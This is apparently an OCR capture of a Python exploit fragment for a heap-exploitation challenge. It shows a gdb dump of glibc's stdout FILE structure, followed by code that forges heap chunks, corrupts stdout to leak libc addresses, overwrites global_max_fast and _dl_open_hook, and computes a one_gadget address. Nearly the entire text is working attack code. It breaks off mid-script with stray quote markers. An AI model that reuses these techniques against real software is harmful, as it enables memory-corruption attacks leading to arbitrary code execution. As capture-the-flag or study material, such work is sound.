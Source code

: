 ```python
0x7ffff7dd5610 <_IO_2_1_stdout_+16>:	0x00007ffff7dd5683	0x00007ffff7dd5683
0x7ffff7dd5620 <_IO_2_1_stdout_+32>:	0x00007ffff7dd5683	0x00007ffff7dd5683
0x7ffff7dd5630 <_IO_2_1_stdout_+48>:	0x00007ffff7dd5683	0x00007ffff7dd5683
0x7ffff7dd5640 <_IO_2_1_stdout_+64>:	0x00007ffff7dd5684	0x0000000000000000
0x7ffff7dd5650 <_IO_2_1_stdout_+80>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd5660 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x00007ffff7dd48c0
0x7ffff7dd5670 <_IO_2_1_stdout_+112>:	0x0000000000000001	0xffffffffffffffff
0x7ffff7dd5680 <_IO_2_1_stdout_+128>:	0x000000000a000000	0x00007ffff7dd6760
0x7ffff7dd5690 <_IO_2_1_stdout_+144>:	0xffffffffffffffff	0x0000000000000000
0x7ffff7dd56a0 <_IO_2_1_stdout_+160>:	0x00007ffff7dd4780	0x0000000000000000
0x7ffff7dd56b0 <_IO_2_1_stdout_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd56c0 <_IO_2_1_stdout_+192>:	0x00000000ffffffff	0x0000000000000000
0x7ffff7dd56d0 <_IO_2_1_stdout_+208>:	0x0000000000000000	0x00007ffff7dd1440

'''


'''

edit(0x670,p64(0)+p64(0x81))
edit(0x670+0x80,p64(0x21)*5)
edit(0x770,p64(0)+p64(0x81))
edit(0x770+0x80,p64(0x21)*5)
free(0x680)
free(0x780)
#'''

edit(0x620,p64(0xfbad1800)+"\x00".ljust(0x10,'\x00')+'\x00\x50')
#edit(0x640,'\x83\x56')
for x in range(4):
	edit(0x648+x*8,'\x83\x56')
edit(0x660,'\x84')
edit(0x668,'\x00'*0x20)
edit(0x688,'\xc0\x48')
edit(0x690,p64(1)+p64(0xffffffffffffffff)+p64(0x000000000a000000)+'\x60\x67')
edit(0x6b0,p64(0xffffffffffffffff)+p64(0)+'\x80\x47')
edit(0x6c8,p64(0)*3+p64(0x00000000ffffffff)+p64(0)*2+'\x40\x14')
#D0ne.... so let's get the control of global fast max
edit(0,p64(0)+p64(0x91)+'\x00'*0x88+p64(0x21)*5)
free(0x10)
edit(0x10,p64(0)+'\xc0\x67')
add(0x88)

# get it!
edit(0x620,p64(0xfbad1800)+p64(0x17e1))
edit(0x620+0x17d8,p64(0x21)*0x20)

free(0x630)
p.read(0x10)
magic=u64(p.read(8))
p.read(0x10)
base=u64(p.read(8))-(0x7ffff7dd4b68-0x7ffff7a37000)
log.warning(hex(magic))
log.warning(hex(base))

libc.address=base
# Modify the _dl_open_hook
n=0x18+2283-10+4
edit(0x1000,p64(0)+p64(0x10*n+1)+'\x00'*(0x10*n-8)+p64(0x21)*5)
free(0x1010)
one=0x3fe36+base
'''

```